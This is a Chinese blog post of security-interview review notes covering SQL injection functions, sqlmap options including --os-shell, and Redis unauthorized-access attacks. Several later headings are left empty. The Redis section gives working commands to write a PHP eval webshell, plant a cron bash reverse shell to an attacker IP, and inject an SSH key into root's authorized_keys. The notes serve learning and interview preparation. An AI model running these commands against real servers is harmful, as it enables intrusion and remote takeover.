 title: 面试复习五
author: liuGuobin
tags:
  - 日报
categories:
  - 日报
date: 2024-04-01 14:30:00
---
#### 前言
因为这段时间面试了几次，也看了很多别人的面试总结，所以抽个时间总结一下自己面试的内容。

## sql注入常见函数
```

#MySQL数据库版本
version()

#数据库安装路径
@@basedir

#数据库文件存放路径
@@datadir

#操作系统版本
@@version_compile_os

#拼接字符串，显示内容
函数concat()、concat_ws()、group_concat()

#截取字符串
substr()、substring()、mid()
```


## sqlmap常见参数
```

-v                  输出级别（0~6，默认1）
-u url              指定url
--data=DATA         该参数指定的数据会被作为POST数据提交
-r file.txt         常用于POST注入或表单提交时注入
--cookie            设置cookie
--threads           指定线程并发数
--level             检测级别（1~5，默认1）
--risk              风险等级（1~4，默认1）
--banner            列举数据库系统的信息等
--sql-query         执行任意的SQL语句
--sql-shell         使用交互式SQL语句执行环境
--flie-read         读取文件
--os-cmd            执行任意系统命令
--os-shell          使用交互式shell执行命令
```


## sqlmapOSShell
#### 原理
--os-shell的本质就是写入两个php文件，一个文件是上传页面可以让我们上传文件到网站路径下。
另一个文件是用于命令执行的页面，将执行后的结果输出到sqlmap中

#### 使用
前提条件：

        知道网站的物理路径
        高权限数据库用户
        secure_file_priv无限制
        网站路径有写入权限

首先保存一份请求包文件，使用 `python sqlmap.py -r xxx.txt -dbms=数据库类型 --os-shell` 跑一下
然后根据实际情况选择搭建网站的语言以及网站物理地址即可


## mysql写shell前置条件
①数据库的当前用户为ROOT或拥有FILE权限； 
② 知道网站目录的绝对路径； 
③ PHP的GPC参数为off状态； 
④ MySQL中的secure_file_priv参数不能为NULL状态


## Redis未授权
#### 产生原因
`redis.conf` 配置文件中配置为任何机器都可以登录 `redis` ，而且未设置密码或者设置弱口令

#### 利用方式
一般都使用kali的redis-cli工具
##### 利用redis写入webshell
```

config set dir /var/www/html/（网站目录） 
config set dbfilename shell.php
set xxx "<?php eval($_REQUEST[cmd]);?>" 

# set xxx "\r\n\r\n<?php eval($_REQUEST['cmd']);?>\r\n\r\n"   
#\r\n\r\n 代表换行的意思，用redis写入文件的会自带一些版本信息，如果不换行可能会导致无法执行

save
```

##### 任务计划反弹Shell
```

set  xx   "\n* * * * * bash -i >& /dev/tcp/192.168.0.113/9999 0>&1\n"
config set dir 定时文件目录
config set dbfilename root
save
```
Ubuntu 不能用的原因是 redis 写文件后是 644 权限，但是 Ubuntu 要求执行定时任务文件的权限是600

##### ssh-keygen 公钥登录服务器
```

# 攻击方生成一对key
ssh-keygen -t rsa

# 将生成的公钥值写入目标服务器
(echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > /tmp/foo.txt
cat /tmp/foo.txt | redis-cli -h 192.168.1.100 -p 6379 -x set crackit

# 连接目标
$ redis-cli -h 192.168.1.100 -p 6379        使用工具连接
192.168.1.100:6379> config set dir /root/.ssh/
192.168.1.100:6379> config get dir
192.168.1.100:6379> config set dbfilename "authorized_keys"
192.168.1.100:6379> save

# 通过ssh连接目标
ssh root@192.168.1.100 -i ~/.ssh/id_rsa
```

##### 主从复制
主从模式指使用一个redis作为主机，其他的作为备份机，主机从机数据都是一样的，从机只负责读，主机只负责写。
通过外部拓展，可以实现在redis中实现一个新的Redis命令，构造恶意.so文件。
在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。然后在从机上加载恶意so文件，即可执行命令。

#### 注意事项
在执行命令的时候要加上`\n\n`，否则容易出现乱码


## url后缀名.do.action是什么框架
一般是Struts2或者Spring框架。
在URL中添加不存在的路径，如果返回同样的页面，则大概率是Struts2框架，如果返回404或者是报错，则大概率是Spring框架。


## sql盲注告警判断成功
正常有回显的注入看返回的状态码和数据内容就知道是否成功，但是盲注需要查看时间差


## 判断文件上传告警分析上传成功
首先看告警记录是否包含webshell流量特征、是否有“上传成功”或“success upload”等信息提示
然后查看服务器中是否存在上传的文件，是否是系统自动删除的
查看日志是否有脚本文件的访问记录


## fastjson漏洞原理



## shiro密钥会变的情况



## 后门分析流程



## java、C++、python工具



## 鉴权漏洞接口



## 栈溢出、格式化字符串



## 网站访问重定向



## DNS劫持了怎么办



## 防火墙和WAF



## 网络基础排障



## 无网排障







## 总结
一面问的时候大多会问技术细节，这时候照着面筋回答就好了。
二面三面问的是项目上的工作细节，不会详细问你一个点，而是问得很广泛，例如：渗透测试的流程、应急响应做过吗、java框架漏洞了解哪些、你以前的工作有什么成果。